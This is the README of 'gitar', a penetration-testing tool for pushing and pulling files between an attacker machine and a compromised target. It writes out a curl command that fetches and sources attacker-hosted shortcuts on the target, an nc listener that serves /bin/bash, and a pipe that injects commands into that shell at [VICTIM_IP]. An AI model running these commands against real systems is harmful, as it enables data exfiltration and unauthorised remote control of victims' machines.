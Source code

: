 <h1 align=center> 🎸 gitar ⇆</h1>

|![demo](https://github.com/ariary/gitar/blob/main/img/gitar-demo.gif)|
|:---:|
|**~>** Have the  ***simplest possible shortcuts*** to upload/download file to/from the target machine<br>**~>** ***No installation needed*** on target machine<br>**~>** ***Fast and simple*** deployment|


## TL;DR *- and listen music*

On my target machine:
 - **Download a file** to my attacker machine: `pull [file]`
 - **Upload a file** to my attacker machine: `push [file]`
 - **Upload a di1rectory** to my attacker machine: `pushr [file]`

*Before be able to use these shortcut you have to [set up](#set-up) both machines. Once again, the aim is to made it as simple as possible*

## Set up

***~>*** To make **set up even simpler** shortcut/aliases are a great benefit. See [them 💥](https://github.com/ariary/bang/blob/main/README.md#gitar-pentest-easy-file-sharing)

### Pre-requisites

* HTTP Network connectivy between attacker & target machine
* On target machine: `curl` 
	* `tar` for upload directory 
* On attacker machine: 
	* `xclip` to copy command on clipboard (not required)
	* `tree`: to expose it trough server (not required)

The aim is to keep "target requirements" as fit as possible. Attacker machine requirements are not a big deal as we have plenty control over it and time to configure it.

### Launch `gitar` server 
 
 1. <sup>(Attacker machine)</sup> Launch the "server" : `gitar -e [server_reachable_ip]`
 2. <sup>(Target machine)</sup> Get shortcuts and source them. The one-liner corresponding is by default copy on clipboard. It is also provided by step 1. (in gitar output): `curl -s http://[attacker_ip:port]/alias > /tmp/alias && source /tmp/alias && rm /tmp/alias`

**And that's all, you can now `push`or `pull` file [🎶](#tldr---and-listen-music)**

 [`with 💥`](https://github.com/ariary/bang/blob/main/EXAMPLES.md#share-files)

### Secure launch of `gitar` server

 
This is basicaly the same as launching `gitar` server. But as we expose our http server we become the prey. Hence we must harden a bit the server. To do this we launch `gitar` inside a container and use HTTPS.

* To enable HTTPS you must have certificates. Generate them with `generate.sh`.
* To use container image, you have to built it from ` Dockerfile`: `make build.image-gitar`

The following steps expose files of current directory. Files uploaded by remote are written inside current directory also.

1. <sup>(Attacker machine)</sup> Launch the "server" : `docker run --rm --cap-drop=all --cap-add=dac_override -v "${PWD}:/app/upload" -v "${HOME}/.gitar/certs/:/certs:ro" -v "${PWD}:/app/download" -p 9237:9237 gitar -copy=false -u /app/upload -d /app/download -tls=true -c /certs`
 2. <sup>(Target machine)</sup> Get shortcuts and source them. The one-liner corresponding is in the container stdout.

**You can now `push`or `pull` file being more safe [🎶](#tldr---and-listen-music)**

[`with 💥`](https://github.com/ariary/bang/blob/main/EXAMPLES.md#share-files-safely)

### Load shortcut directly in your reverse shell

**~>** *Below are the steps to have shortcuts directly embedded in your `nc` reverse shell*

1. <sup>(Target machine)</sup> Launch your classic listener: `nc -nvlp 4444 -e /bin/bash`
2. <sup>(Attacker machine)</sup> Launch the "server" : `gitar -e [server_reachable_ip]` *(By default this will copy on clipboard the command to set up gitar exchange, also available in server output)*
3.  <sup>(Attacker machine)</sup> Connect to the reverse shell + load shortcut within:`nc [VICTIM_IP] 4444` then `CTRL+V` 

An alternative is `export CMD=[CTRL+V] && (echo $CMD && cat) | nc [VICTIM_IP] 4444` *(Note: with `cat` you will not beneifit of bash completion)*

**And enjoy you revshell [🎶](#tldr---and-listen-music)**

## Enhancement 🛣️

**~>** *All improvements must keep `gitar` simple and don't add unlikely pre-requisites (especially for the target machine)*

**Useful cause we will expose our http server and thus we become the prey**
- Hardening container image (use a non-root user, but in same time we have to be able to read/write from host volumes)
- HTTPS, basic authent (for the file server part)

**Improve UX**
- Handle case when curl isn't on target machine (wget version?) *Proposal: flag `method` (default curl), will determine the handler "alias" and adapt it in function (wget and Invoke-Webquest)
- An option to directly launch the reverse shell session with shortcut from `gitar`
- Soft to workaround limit due to `cat` use for reverse shell connection => autocompletion in reverse shell will not work as we have a pipe not a terminal. (To solve the pb we must have a prgm that creates a pseudoterminal, spawns a program connected to this pseudoterminal [see](https://stackoverflow.com/questions/5843741/how-can-i-pipe-initial-input-into-process-which-will-then-be-interactive) )


<div align=center><img src="https://github.com/ariary/gitar/blob/main/img/gitar-small.png"><div>
